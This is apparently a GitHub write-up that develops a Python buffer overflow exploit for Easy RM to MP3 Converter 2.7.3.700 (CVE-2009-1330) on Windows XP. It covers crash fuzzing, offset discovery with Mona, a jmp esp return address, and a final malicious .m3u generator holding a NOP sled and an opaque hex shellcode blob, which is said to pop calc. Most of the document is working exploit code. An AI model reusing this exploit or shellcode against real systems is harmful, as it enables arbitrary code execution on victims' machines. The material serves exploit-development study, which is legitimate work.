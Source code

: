 # Easy RM to MP3 Converter 2.7.3.700 (.m3u) File WinXP Sp2 Buffer Overflow Exploit

-   cve details: [CVE-2009-1330](https://www.cvedetails.com/cve/CVE-2009-1330/)
-   Target: Easy RM to MP3 Converter 2.7.3.700
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I opened target program and checked its. I understood the program takes input from user in file types like: ra, m3u, pl, ... . For load file use Load button. For check program vulnerability I made a python file :

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```
After load exploit.m3u, program handle its:

![](/images/1.JPG)

I add more "A" and again check it:

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```
Program closed witout show error and .... . I understood target maybe vulnerability.I started develop a exploit for it. I want show calce.

I run Immunity Debugger and attached target to debugger. I need find EIP and for it, I need find how many "A" input to target.I used Mona for create pattern :

![](/images/2.JPG)

Mona create pattern file in this path: Immunity Debugger path/pattern.txt . Open it and copy ASCII section to new file like exploit.m3u . Now I load this file to target that attached in Immunity. Target is closed,and now I go to Immunity and copy EIP and with Mona command (!mona po 78533778) , I find exactlly location.

![](/images/3.JPG)

Now I know number "A" (14752) and for check it , I change my exploit to below. If EIP show 42424242 ,location is true :

```source-shell
    exploit='A'*14752 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

After load, I show program handle it and the location found by Mona was incorrect. 

![](/images/4.JPG)

I using manully approch, change number of "A" to find location. afte check some number , I find 26064. So my exploit changed to :

```source-shell
    exploit='A'*26064 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

![](/images/5.JPG)

Now I need added my shellcode and find my shellcode's location and pass it to EIP. I change my exploit to this:

```source-shell
    exploit='A'*26064 + "B"*4 + "C"*100
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

![](/images/6.JPG)

I load file in target and check it in Immunity. I see my shellcode load in Stack and I only need find a command point to stack like "jmp esp" ,also I see a jump occur and 4"C" does not run, so if I add shellcode to this,My shellcode not execute. For solved first problem , I load program in Immunity and RightClick>Search for > All commands in All modules and so type jmp esp and select a result :

![](/images/7.JPG)

I select this address (7c9d30d7). I add this address (reverse) to exploit and so add shellcode :


```source-shell
    exploit= "A" * 26064 + "\xD7\x30\x9D\x7C" +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

And finally for solved second problem,I use NOP sed. my exploit in final mode:

```source-shell
exploit= "A" * 26064 + "\xD7\x30\x9D\x7C"+ "\x90"*8 +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
    "\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
    "\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
    "\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
    "\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
    "\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
    "\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
    "\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
    "\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
    "\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
    "\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
    "\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
    "\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
    "\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
    "\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
    "\xf3\x07")
    
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```


![](/images/8.JPG)



